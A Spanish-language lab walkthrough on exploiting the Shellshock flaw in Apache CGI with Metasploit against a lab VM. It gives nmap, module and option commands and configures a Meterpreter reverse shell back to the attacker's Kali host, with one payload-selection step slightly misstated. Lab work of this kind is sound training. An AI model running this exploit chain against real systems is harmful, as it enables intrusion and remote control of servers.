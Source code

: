 # Explotar vulnerabilidad CVE-2014-6271 (Shellshock) presente en Apache.

Este laboratorio muestra como usar la vulnerabilidad ***Shellshock*** que consigue ejecutar código mediante su inyección en una variable de entorno de Bash. Para ello usa el módulo ***mod_cgi*** del servidor Apache. Aquí tienes información sobre la vulnerabilidad: https://www.cvedetails.com/cve/CVE-2014-6271/.

La debilidad se encuentra en cómo la shell ***Bash*** gestiona las variables de entorno externas. Utiliza ***scripts CGI*** en el servidor web Apache inyectando una función maliciosa en la variable de entorno ***HTTP_USER_AGENT***.

Usamos ***nmap*** contra la víctima para determinar si está presente el servidor Apache.
```
nmap -sV 192.168.20.13 -p 80, 443
```

Como puede observarse en la imagen, está presente el servidor ***Apache 2.4.7*** en el puerto ***80***.

![Servidor Apache presente](../img/lab-30-B/202208111032.png)

Cargamos la consola de ***Metasploit*** sino estuviera ya iniciada.
```
msfconsole
```

Procedemos a cargar el módulo para realizar el ataque.
```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Mostramos las ***opciones*** de este exploit.
```
show options
```

Las opciones son las siguientes.

![Opciones del módulo](../img/lab-30-B/202208111038.png)

Las configuraciones que debemos proporcionar son:

* *CMD_MAX_LENGTH*: Obligatoria. Es el número de caracteres que vamos a inyectar en la víctima. El valor 2048 suele ser suficiente para albergar las diferentes ***payloads*** disponibles. No lo cambiamos.
* *CVE*: Obligatoria. Contiene la vulnerabilidad a explotar, pudiendo elegir entre CVE-2014-6271 (https://www.cvedetails.com/cve/CVE-2014-6271/) y CVE-2014-6278 (https://www.cvedetails.com/cve/CVE-2014-6278/). Esta última es una variante de la anterior. Dejaremos el valor por defecto.
* *HEADER*: Obligatoria. Especifica la cabecera HTTP que será usada para inyectar el código malicioso. Debe ser ***User-Agent***, así que no la cambiamos.
* *METHOD*: Obligatoria. Especifica el verbo HTTP a utilizar. Debe ser ***GET***. No lo cambiamos.
* *Proxies*: Opcional. Permite relizar el ataque a través de un proxy. No lo usaremos.
* *RHOSTS: Obligatoria. IP(s) de la víctima(s). Ponemos la de ***Metasploitable-ubu1404***, que es ***192.168.20.13***.
* *RPATH*: Obligatoria. Ruta para los binarios usados por el ***Command Stager***. Cuando un payload es largo, el ataque podría no funcionar porque no es posible inyectar la totalidad de dicho payload. El ***Command Stager*** es un pequeño programa que puede ser inyectado, siendo su misión la de descargar el payload verdadero por trozos o partes (etapas). Dejamos la ruta por defecto.
* *RPORT*: Puerto que está sirviendo Apache. Como hemos visto con ***nmap*** es el ***80***. Lo dejamos tal cual.
* *SRVHOST*: Obligatoria. IP del servidor en la máquina ***Kali*** que recibirá la conexión del payload. Si solo disponemos de una IP, es indiferente. No cambiamos este ajuste.
* *SRVPORT*: Obligatoria. Puerto del servidor en la máquina ***Kali*** desde el que el ***CmdStager*** se descargará el payload. Dejamos este valor.
* *SSL*: Opcional. Podemos ocultar el tráfico del payload por medio de SSL. Su finalidad es evadir la detección de los ***IPS***. No lo usamos.
* *SSLCert*: Opcional. Certificado necesario para usar SSL. No lo usamos.
* *TARGETURI*: Ruta al script CGI que será inyectado y que deseamos ejecutar. Lo cambiamos a ***/cgi-bin/hello_world.sh***.
* *TIMEOUT*: Obligatorio. Tiempo de espera para recibir la response. Lo dejamos como está.
* *URIPATH*: Opcional. Este exploit no usa URI. Lo dejamos en blanco.
* *VHOST*: Opcional. Un ***Virtual host*** es una forma de alojamiento web que permite que varias paginas web puedan funcionar en un mismo host. Nuestro objetivo no es un virtual host, así que lo dejamos en blanco.

```
set RHOSTS 192.168.20.13
```

```
set TARGETURI /cgi-bin/hello_world.sh
```

Es el momento de mostrar los payloads compatibles con este ataque.
```
show payloads
```

Tenemos mucha diversidad.

![Lista de payloads](../img/lab-30-B/202208111124.png)

Vamos a usar un ***Meterpreter***.
```
use linux/x86/meterpreter/reverse_tcp
```
```
show options
```

Debemos configurar las opciones del payload.

![Opciones del payload](../img/lab-30-B/202208111129.png)

Establecemos como atacante la máquina de ***Kali***.
```
set LHOST 192.168.20.9
```

Respecto a ***LPORT*** dejamos el valor propuesto (***4444***). A este puerto se conectará el payload de meterpreter para ofrecernos la shell inversa.

Mostramos los ***targets***.
```
show targets
```

Solo hay un candidato: ***Linux***, por lo que no es necesario especificarlo.

